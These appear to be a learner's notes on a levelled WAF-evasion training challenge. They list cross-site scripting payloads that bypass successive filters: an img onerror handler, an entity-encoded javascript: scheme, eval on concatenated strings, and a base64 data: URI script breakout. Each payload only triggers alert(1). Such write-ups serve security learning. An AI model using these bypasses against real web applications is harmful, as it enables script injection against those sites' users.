 # Web App Firewall (WAF) Filter evasion

**Level 0 No filter**
`<script>alert(1)</script>`  simple as no checks

**Level 1-3 script filter**
`<img src="dfsdf" onerror="alert(1)" />` smuggle js via image


Works for all


**Level 4 Link (WAF filter: /"/)**
Entered code ends up in a link: `javascript:alert(1)`

**Level 5+6 Link  (/"|javascript/i )**
`j&#97v&#97script&#x3A;&#97lert(1)`

Works for 5 + 6
Something like this using lax browser parsing didnt work: "j a va script...")

**Level 7 Code (/alert/i )**

```
'1';
var b = 'aler';
var c = 't(1)';
eval(b+c);
```

**Level 8 Code**
```
1;</script><script src="data:text/javascript;base64,amF2YXNjcmlwdDphbGVydCgxKQ=="></script>
```

or just  (without javascript)
```
1;</script><script src="data:text;base64,amF2YXNjcmlwdDphbGVydCgxKQ=="></script>
```

**Level 9**
:-(  not succesful 


**Level 10**
:-(  not succesful 


## Notes
https://www.volkis.com.au/blog/bypass-xss-in-wafs/ 
https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/

https://www.w3.org/MarkUp/html-spec/html-spec_13.html